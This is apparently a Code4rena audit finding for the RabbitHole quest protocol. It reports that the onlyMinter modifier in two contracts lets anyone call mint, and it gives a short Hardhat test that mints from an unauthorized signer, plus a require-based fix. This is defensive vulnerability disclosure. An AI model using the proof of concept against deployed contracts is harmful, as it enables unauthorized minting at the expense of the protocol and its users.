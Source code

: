 # Original link
https://github.com/code-423n4/2023-01-rabbithole-findings/issues/57
# Lines of code

https://github.com/rabbitholegg/quest-protocol/blob/8c4c1f71221570b14a0479c216583342bd652d8d/contracts/RabbitHoleReceipt.sol#L58-L61
https://github.com/rabbitholegg/quest-protocol/blob/36261511d52dddc757e225324c2c19a3e0a3c3cb/contracts/RabbitHoleTickets.sol#L47-L50


# Vulnerability details

## Impact
```onlyMinter``` modifier in ```RabbitHoleReceipt.sol``` and ```RabbitHoleTickets.sol``` implements wrong ```minterAddress``` check.

[mint](https://github.com/rabbitholegg/quest-protocol/blob/main/contracts/RabbitHoleTickets.sol#L83-L85), [mintBatch](https://github.com/rabbitholegg/quest-protocol/blob/main/contracts/RabbitHoleTickets.sol#L92-L99) and [mint](https://github.com/rabbitholegg/quest-protocol/blob/main/contracts/RabbitHoleTickets.sol#L92-L99) can be called by anyone which breaks protocol's access logic.

## Proof of Concept
Add a new test case in ```test/RabbitHoleReceipt.spec.ts``` file.

```js
it('bypass onlyMinter modifier', async () => {
    const signers = await ethers.getSigners();
    await RHReceipt.setMinterAddress(signers[7].address);

    await RHReceipt.connect(signers[9]).mint(signers[9].address, '1337nft')

    expect(await RHReceipt.balanceOf(signers[9].address)).to.eq(1)
    expect(await RHReceipt.questIdForTokenId(1)).to.eq('1337nft')
})
```

## Tools Used
Hardhat

## Recommended Mitigation Steps
Require function should be added to correctly check the minter's address.

```solidity
modifier onlyMinter() {
    require(msg.sender == minterAddress);
    _;
}
```